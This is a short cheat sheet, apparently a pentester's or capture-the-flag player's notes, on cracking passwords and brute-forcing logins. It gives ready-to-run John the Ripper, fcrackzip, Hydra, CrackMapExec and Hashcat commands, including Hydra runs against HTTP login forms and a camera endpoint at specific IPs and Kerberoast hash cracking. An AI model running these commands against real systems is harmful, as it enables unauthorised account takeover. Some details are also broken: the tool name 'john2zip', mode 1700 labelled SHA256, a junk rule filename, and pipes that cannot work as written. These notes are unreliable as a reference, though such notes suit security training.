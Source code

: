 ## Wordlist
- Seclist: https://github.com/danielmiessler/SecLists
- rockyou: https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

```
/usr/share/wordlists
/usr/share/seclists/Passwords/darkweb2017-top1000.txt
```

## John the Ripper
> Take note, john the ripper only accepts .hash type files. 

```
# converts the .zip file into a hash file 
john2zip {.zip file} > {.hash file}

# bruteforce
john --wordlist={wordlist} {.hash file}
john -show {.hash file}
```

## fcrackzip
```
fcrackzip -u -v -D -p {wordlist} {.zip}
```

## Hydra
```
# normal usage
hydra -L {name} -P {wordlist} {IP} smb

# website
hydra -l fergus -P /usr/share/wordlists/ 10.10.10.191 http-post-form "/admin/:tokenCSRF=c2cdfb24e13671a2f17f334e3cac54af6ee96f42&username=^USER^&password=^PASS^&save=:Username or password incorrect"

hydra -l admin -P 1000_common_passwords.txt -s 8090 -f 192.168.1.4 http-get /get_camera_params.cgi
```
> - take note there are SMB, SSH
> - need to find the error message for login 
> - use burpsuite

## Crackmapexec 
```
cme winrm {IP} -u {name} -p {wordlist/password}
```
> take note there are SSH, SMB, WINRM, ?, ?

## Hashcat 

https://github.com/frizb/Hashcat-Cheatsheet

> Hashcat ID
```
0 - MD5
100 - SHA1
900 - MD4
1000 - NTLM
1400 - SHA256
1700 - SHA256
11600 - 7-Zip
13000 - RAR5
13600 - WinZip
```
> In general hashes / windows

```
200 - bcrypt $2*$, Blowfish(Unix)
400 - sha256crypt $5$, SHA256(Unix)
500 - md5crypt $1$, MD5(Unix)
1800 - sha512crypt $6$, SHA512(Unix)
```
> Linux hashes (/etc/shadow)

```
hashcat.exe -a 0 -m {ID} {.hash/.txt file} {wordlist} -r rules\Insider-ProMAnagerHASdasdasdasd.txt
```
> general usage
```
13100 - Type 23 - $krb5tgs$23$
19600 - Type 17 - $krb5tgs$17$
19700 - Type 18 - $krb5tgs$18$
18200 - ASREP Type 23 - $krb5asrep$23$

hashcat -m 13100 -a 0 -w 4 {.hash file/.txt file} {wordlist}
```
> crack kerberoast hashes

```
echo -n "change" | hashcat --force --stdout -r /usr/share/hashcat/rules/{rule}.rule >> wordlist.txt | sort
```
> generate a wordlist out from the word "change" via rules.
```
InsiderPro-Hashmanager.rule
rockyou-3000.rule
best64.rule
```
> recommended rules
```
echo -n "change" | hashcat --force --stdout -r /usr/share/hashcat/rules/hybrid/append_d.rule  -r /usr/share/hashcat/rules/hybrid/append_d.rule  -r /usr/share/hashcat/rules/hybrid/append_d.rule  >> wordlist.txt | sort

echo "change" >> potential.txt
hashcat -a 6 potential.txt ?d?d?d --force --stdout > wordlist.txt
```
> generate a wordlist out from the word "change" and appending digit rules. E.g. change000 change032 change321




